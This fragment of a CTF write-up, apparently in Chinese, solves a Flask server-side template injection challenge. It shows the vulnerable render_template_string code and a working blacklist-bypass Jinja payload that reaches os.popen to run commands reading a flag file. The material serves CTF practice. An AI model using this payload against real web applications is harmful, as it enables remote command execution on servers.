 ```python
    for i in bl:
        if i in klf:
            return render_template('klf.html')

    a = render_template_string(template % klf)
    if "{" in a:
        return  a + render_template('win.html')

    return a



@app.route('/robots.txt', methods=['GET'])
def robots():
    return send_from_directory(os.path.join(app.root_path, 'static'),
                               'robots.txt', mimetype='text/plain')




if __name__ == '__main__':
    app.run(host='0.0.0.0', port=7889, debug=False)
```

过滤的太多了，直接用过滤器

payload

```python
{% set po=dict(po=1,p=2)|join()%}
{% set a=(()|select|string|list)|attr(po)(24)%} 
{% set oo=dict(o=a,s=a)|join()%}
{% set p=dict(po=a,pen=a)|join()%}
{% set ch=dict(ch=a,r=a)|join()%}
{% set in=(a,a,dict(in=a,it=a)|join,a,a)|join()%}
{% set gl=(a,a,dict(glob=a,als=q)|join,a,a)|join()%}
{% set ge=(a,a,dict(geti=a,tem=a)|join,a,a)|join()%}
{% set bu=(a,a,dict(bui=a,ltins=a)|join,a,a)|join()%}
{% set im=(a,a,dict(imp=a,ort=a)|join,a,a)|join()%}
{% set cl=(a,a,dict(cla=a,ss=a)|join,a,a)|join()%}
{% set su=(a,a,dict(subcla=a,sses=a)|join,a,a)|join()%}
{% set ba=(a,a,dict(ba=a,se=a)|join,a,a)|join()%}
{% set x=jay17|attr(cl)|attr(ba)|attr(su)()%}
{% set chhr=()|attr(cl)|attr(ba)|attr(su)()|attr(ge)(117)|attr(in)|attr(gl)|attr(ge)(bu)|attr(ge)(ch)%}
{% set pp=()|attr(cl)|attr(ba)|attr(su)()|attr(ge)(117)|attr(in)|attr(gl)|attr(ge)(p)%}
{% set re=dict(re=a,ad=a)|join()%}
{% set en=dict(en=a,v=a)|join()%}
{% set fl=dict(fl=a,ag=a)|join()%}
{% set ta=dict(ta=a,c=a)|join()%}
{% set kgxg=(chhr(3２),chhr(4７))|join()%}
{% set tf=(ta,kgxg,fl)|join()%}
{% set ll=dict(l=a,s=a)|join()%}
{% set lll=(ll,kgxg)|join()%}
{% set la=(ll,kgxg,dict(ap=a,p=a)|join)|join()%}
{% set ha=dict(ha=a,hahaha=a)|join()%}
{% set th=(ta,chhr(3２),ha)|join()%}
{% set ym=(dict(ca=a,t=a)|join,chhr(3２),dict(ap=a,p=a)|join,chhr(4６),dict(p=a,y=a)|join)|join()%}
{% set six=(ta,kgxg,dict(ap=a,p=a)|join,chhr(4７),dict(fl4gfl4=a,gfl4g=a)|join)|join()%}
{% set cmd=pp(six)|attr(re)()%}
{{cmd}}
```

